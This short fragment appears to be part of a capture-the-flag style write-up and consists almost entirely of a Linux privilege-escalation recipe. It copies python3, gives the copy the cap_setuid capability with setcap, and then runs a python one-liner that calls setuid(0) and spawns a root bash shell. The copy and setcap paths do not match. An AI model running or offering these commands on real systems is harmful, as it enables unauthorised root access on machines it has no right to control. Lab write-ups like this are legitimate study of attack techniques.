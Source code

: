 - - -
### /sbin/setcap

```sh
cp /usr/bin/python3 /tmp/
```

```sh
setcap cap_setuid+ep /home/annie/python3
```

```python
./python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
```

![Imgur](https://i.imgur.com/Vd6FeeS.png)
![Imgur](https://i.imgur.com/utN0jT7.png)

- - -


